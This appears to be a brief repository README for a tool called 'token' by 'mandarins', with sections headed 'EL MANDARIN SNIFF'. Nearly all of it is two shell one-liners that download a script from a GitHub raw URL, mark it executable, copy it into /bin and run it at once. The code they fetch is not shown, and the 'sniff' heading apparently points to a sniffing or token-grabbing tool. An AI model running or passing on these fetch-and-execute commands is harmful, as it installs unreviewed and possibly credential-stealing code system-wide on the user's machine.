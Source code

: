 # token
scripts token by mandarins



https://raw.githubusercontent.com/gatesccn01/token/main/adm




wget https://raw.githubusercontent.com/gatesccn01/token/main/adm; chmod 755 *; mv adm /bin/adm; adm
# EL MANDARIN SNIFF





# VERSION 2
# EL MANDARIN SNIFF

wget https://raw.githubusercontent.com/gatesccn01/token/main/token.sh; chmod 755 *; mv token.sh /bin/token; token

